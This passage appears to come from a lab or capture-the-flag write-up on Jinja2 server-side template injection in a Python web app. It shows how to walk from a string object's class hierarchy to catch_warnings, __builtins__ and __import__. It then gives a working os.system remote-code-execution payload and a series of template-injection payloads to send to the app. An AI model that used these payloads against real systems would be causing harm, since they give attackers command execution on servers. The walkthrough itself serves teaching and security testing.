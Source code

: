     def searchfunc(name):
        x = s.__class__.mro()[1].__subclasses__()
        for i in range(len(x)):
                fn = x[i].__name__
                if fn.find(name) > -1:
                        print(i, fn)
    
    searchfunc('warning')

    y = x[147]

    y
    # class 'warnings.catch_warnings'

    z = y()._module.__builtins__

    for i in z:
        if i.find('import') >-1:
            print (i, z[i])
    # __import__ <built-in function __import__>
    ```
  
  * Searching for 'warning' gives us ```catch_warnings```; this class imports Python's ```sys``` module, and from ```sys```, we can reach ```os```. And searching further, we can find the import function as well, which can be used to execute code coming from a string object:

    ```python
    ''.__class__.__mro__[1].__subclasses__()[147]()._module.__builtins__['__import__']('os').system('echo RCE from a string object')
    # prints the string
    ```
  
  * Using this logic, we can test our payloads part-by-part to get RCE - we can use the web app directly and send our payloads as well

    * ```{{ ''.__class__ }}``` - gives 'str' class

    * ```{{ ''.__class__.__mro__ }}``` - gives class 'str' and class 'object'

    * ```{{ ''.__class__.__mro__[1] }}``` - gives class 'object' only since that's what we need

    * ```{{ ''.__class__.__mro__[1].__subclasses__() }}``` - lots of output, and we need to get the index for 'warnings'

    * We can use the following payload to show all references and their indices:

      ```python
      {% for i in range(450) %} 
      {{ i }}
      {{ ''.__class__.__mro__[1].__subclasses__()[i].__name__ }} 
      {% endfor %}
      ```
